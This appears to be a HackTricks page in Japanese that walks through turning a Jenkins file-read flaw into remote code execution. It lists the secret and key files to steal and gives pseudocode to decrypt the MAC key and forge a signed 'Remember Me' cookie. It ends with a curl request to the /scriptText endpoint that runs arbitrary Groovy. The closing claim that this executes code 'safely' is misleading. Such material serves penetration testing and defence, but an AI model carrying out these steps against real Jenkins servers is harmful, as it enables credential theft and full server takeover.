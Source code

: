 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

このブログ投稿では、Jenkinsのローカルファイルインクルージョン脆弱性をRCEに変換する素晴らしい方法を見つけることができます: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

これは、任意のクッキーを作成することがRCEを取得するために悪用される投稿の部分のAIによって作成された要約です。自分で要約を作成する時間ができるまでの間のものです:

### 攻撃の前提条件

* **機能要件:** "Remember me"が有効である必要があります（デフォルト設定）。
* **アクセスレベル:** 攻撃者は全体/読み取り権限が必要です。
* **秘密アクセス:** 重要なファイルからバイナリおよびテキストコンテンツを読み取る能力。

### 詳細な悪用プロセス

#### ステップ1: データ収集

**ユーザー情報の取得**

* 各ユーザーのために`$JENKINS_HOME/users/*.xml`からユーザー設定と秘密を取得します:
* **ユーザー名**
* **ユーザーシード**
* **タイムスタンプ**
* **パスワードハッシュ**

**秘密鍵の抽出**

* クッキーの署名に使用される暗号鍵を抽出します:
* **秘密鍵:** `$JENKINS_HOME/secret.key`
* **マスター鍵:** `$JENKINS_HOME/secrets/master.key`
* **MAC鍵ファイル:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### ステップ2: クッキーの偽造

**トークンの準備**

*   **トークンの有効期限を計算:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 現在の時間に1時間を追加
```
{% endcode %}
*   **トークンのためのデータを連結:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC鍵の復号**

*   **MAC鍵ファイルを復号:**

```javascript
key = toAes128Key(masterKey)  // マスター鍵をAES128鍵形式に変換
decrypted = AES.decrypt(macFile, key)  // .macファイルを復号
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**署名の計算**

*   **HMAC SHA256を計算:**

```javascript
mac = HmacSHA256(token, macKey)  // トークンとMAC鍵を使用してHMACを計算
tokenSignature = bytesToHexString(mac)  // MACを16進数文字列に変換
```

**クッキーのエンコード**

*   **最終クッキーを生成:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // クッキーのデータをBase64エンコード
```
{% endcode %}

#### ステップ3: コード実行

**セッション認証**

* **CSRFおよびセッショントークンを取得:**
* `/crumbIssuer/api/json`にリクエストを送信して`Jenkins-Crumb`を取得します。
* 応答から`JSESSIONID`をキャプチャし、remember-meクッキーと一緒に使用します。

**コマンド実行リクエスト**

*   **Groovyスクリプトを使用してPOSTリクエストを送信:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovyスクリプトは、システムレベルのコマンドやJenkins環境内の他の操作を実行するために使用できます。

提供されたcurlコマンドの例は、必要なヘッダーとクッキーを使用してJenkinsにリクエストを送信し、任意のコードを安全に実行する方法を示しています。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
